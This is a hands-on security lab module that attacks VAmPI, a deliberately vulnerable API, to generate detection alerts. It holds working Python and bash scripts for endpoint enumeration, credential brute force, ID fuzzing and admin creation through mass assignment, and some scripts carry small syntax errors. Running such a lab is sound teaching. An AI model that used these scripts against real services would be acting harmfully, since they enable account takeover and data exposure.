








# Module 3

### Exercise 3.1 - Resource Enumeration

Resource enumeration enable attackers to find endpoints and increase the attack surface available to them. This could be done using small targeted word lists. In the lab below we will run this attack againt VAmPI, a industry standard vulnerable API. 

1. We are going to use the fuzz list for this. We are using xer0dayz [xer0dayz' Github](https://github.com/1N3) which is located in the ~/API_Sec_Lab/IntruderPayloads/dirbuster-quick.txt
2. Let's look how easy this is by looking at the script that we will run to execute this attack. Type the following command `cat ~/resource_enum.py`. The code should look like this:

        import requests

        host = 'http://10.50.100.45:5000/'
        file1 = open('./API_Sec_Lab/IntruderPayloads/dirbuster-quick.txt', 'r')
        Lines = file1.read().splitlines()

        count = 0
        for line in Lines:
            count += 1
            x = requests.get(host + line, verify=False)
            print('Resource: ' + line + ' | ' + str(x.status_code))

3. From the command line type the following commands:

        cd
        pip install requests
        python resource_enum.py

4. The output should look like this:

>Resource: /phpMyAdmin/ | 404
>Resource: /wp/ | 404
>Resource: /wordpress/ | 404
>Resource: /drupal/ | 404
>Resource: /cms/ | 404

5. Go to Akamai API Security portal at [Akamai API Security Portal](https://app.neosec.com/)
6. Log in with lab credentials from Lesson 1
7. Review the Alerts

### Exercise 3.2 - Brute Force Login Endpoint

In brute force attacks, malicious actors try to login to accounts using different passwords. The process use lists of username and password combinations in order to try and login as a valid user. For this exercise we will continue to use xer0dayz' toolkit for our username and password lists. 

1. We are going to use the following files for our username and password list. Take a look at these either from the command line or in the GUI
        - ~/API_Sec_Lab/IntruderPayloads/usernames.txt
        - ~/API_Sec_Lab/IntruderPayloads/passwords_medium.txt
2. For this lab we are going to run the python program named ~/bruteforce_login.py

                import requests
                import time

                host = 'http://<HOST_UP>'
                file1 = open('./passwordlist.txt', 'r')
                file2 = open('./loginusernames.txt', 'r')
                PasswordList = file1.read().splitlines()
                LoginUserList = file2.read().splitlines()

                count = 0
                for username in LoginUserList:
                for password in PasswordList:
                        count += 1
                        r = requests.post(host + '/users/v1/login', json={"username": username, "password": password}, verify=False)
                        time.sleep(0.1)
                        print(username + ':' + password + ' | ' + str(r.json()))

3. Run the following commands:

                pip install requests
                python bruteforce_login.py

4. The output should look like:

> root:123456 | {'status': 'fail', 'message': 'Username does not exist'}
> root:password | {'status': 'fail', 'message': 'Username does not exist'}
> root:12345678 | {'status': 'fail', 'message': 'Username does not exist'}
> admin:123456 | {'status': 'fail', 'message': 'Password is not correct for the given username.'}
> admin:password | {'status': 'fail', 'message': 'Password is not correct for the given username.'}
> admin:12345678 | {'status': 'fail', 'message': 'Password is not correct for the given username.'}
> test:123456 | {'status': 'fail', 'message': 'Username does not exist'}
> test:password | {'status': 'fail', 'message': 'Username does not exist'}
> test:12345678 | {'status': 'fail', 'message': 'Username does not exist'}

5. Go to Akamai API Security portal at [Akamai API Security Portal](https://app.neosec.com/)
6. Log in with lab credentials from Lesson 1
7. Review the Alerts

### Exercise 3.3 - Path Parameter Fuzzing

Attackers fuzz path parameters in order to find whether the API is leaking information. The steps below generate requests in order to fuzz both {user_id} and {book_id} parameters. Follow the steps below to run this attack against VAmPI. This doesn't really even take programming to accomplish. 

##### Fuzzing the {user_id} parameter

1. As before we will utilize xer0dayz's username list for this exercise. This is located at `~/API_Sec_Lab/IntruderPayloads/usernames.txt`
2. We will launch the attack with a shell script. Below is the code for review: 

                #!/bin/bash
                cat ~/API_Sec_Lab/IntruderPayloads/usernames.txt | while read line; do curl -X GET -H 'Connection: close' --insecure "http://192.168.100.45:5000/users/v1/$(echo $line|tr -d '\n\t\r')" -s -w --insecure'\n'; done

3. Run the following command from the command line:

                cd ~
                ./user-id-fuzz.sh

4. The output should look something like:

> {"username": "admin", "email": "admin@mail.com"}
> { "status": "fail", "message": "User not found"}
> { "status": "fail", "message": "User not found"}
> { "status": "fail", "message": "User not found"}

5. Go to Akamai API Security portal at [Akamai API Security Portal](https://app.neosec.com/)
6. Log in with lab credentials from Lesson 1
7. Review the Alerts

##### Fuzzing the {book_id} parameter

1. We will be using a list of book names named booknames.txt located at `~/API_Sec_Lab/IntruderPayloads/booknames.txt`
2. This requires authentication so we will again utilize a shell script to run this attack. You can view the script at `~/book-id-fuzz.sh` and it looks like below:

                !#/bin/bash

                sessionid=$(curl -s -X POST -H 'Content-Type: application/json' -d '{"username":"name1","password":"pass1"}' "http://192.168.100.45:5000/users/v1/login" --insecure | cut -d , -f 1 | cut -d \" -f 4)

                cat ~/API_Sec_Lab/IntruderPayloads/books.txt | while read line; do curl -s -X GET -H 'Connection: close' -H 'Authorization: bearer $sessionid', "message' --insecure "http://<HOST>:<PORT>/books/v1/$(echo $line|tr -d '\n\t\r')" -w '\n'; done

3. The output should look as follows:
> { "status": "fail", "message": "Book not found!"}
> { "status": "fail", "message": "Book not found!"}
> {"book_title": "bookTitle16", "owner": "name1", "secret": "secret for bookTitle16"}
> { "status": "fail", "message": "Book not found!"}
> { "status": "fail", "message": "Book not found!"}
> { "status": "fail", "message": "Book not found!"}
> { "status": "fail", "message": "Book not found!"}
> { "status": "fail", "message": "Book not found!"}
> {"book_title": "bookTitle22", "owner": "admin", "secret": "secret for bookTitle22"}
> { "status": "fail", "message": "Book not found!"}

4. Go to Akamai API Security portal at [Akamai API Security Portal](https://app.neosec.com/)
5. Log in with lab credentials from Lesson 1
6. Review the Alerts

### Exercise 3.4 - Mass Assignment

In a Mass Assignment scenario, the client sends a request to an endpoint with additional JSON properties. Attackers often add JSON properties such as 'is_admin', 'role', etc. to bypass access controls. The script generates request to the register endpoint with additional JSON properties in order to try and register as an admin. Us the following steps to run this attack against VAmPI. 

1. From the command line run the following command:

                cd ~/API_Sec_Lab/files
                ./mass-assign.sh

2. The code for this script for your review below:

                #!/bin/bash

                HOST=192.168.100.45
                PORT=5000
                NEWUSER=test1
                NEWPASS=test1
                URL=/users/v1/register

                curl -s -X POST -H 'Content-Type: application/json' -d '{"username":$NEWUSER,"password":$NEWPASS, "email":"test1@test.com"}' http://$HOST:$PORT$PATH --insecure

                echo "You should see a successfully registered output"
                sleep 5
                clear
                echo "Now we will run a debug of all user data to see our new user"
                sleep 1
                curl -X GET -H 'Connection: close' --insecure http://$HOST:$PORT/users/v1/_debug
                echo ""
                echo "You should see a user named test1 now"
                sleep 5
                clear
                echo "Now we will see if we can create an admin user via the API"
                echo "We will use the following command:"
                echo ""
                echo "curl -s -X POST -H 'Content-Type: application/json' -d '{"username":"test2","password":"test2", "email":"test2@test.com", "role":"admin"}' http://$HOST:$PORT$URL --insecure"
                echo ""
                echo ""
                curl -s -X POST -H 'Content-Type: application/json' -d '{"username":"test2","password":"test2", "email":"test2@test.com", "role":"admin"}' http://$HOST:$PORT$URL --insecure
                echo ""
                echo "You should see a success message, but we will double check using the debug call from before."
                echo ""
                curl -X GET -H 'Connection: close' --insecure http://$HOST:$PORT/users/v1/_debug
                echo ""
                echo "You should see the test2 user is an admin user now. You can play around on the CLI and modify the above command to test."
                sleep 5
                clear

3. You are highly encouraged to tinker around here an issue some other commands to see what else you can do to this API

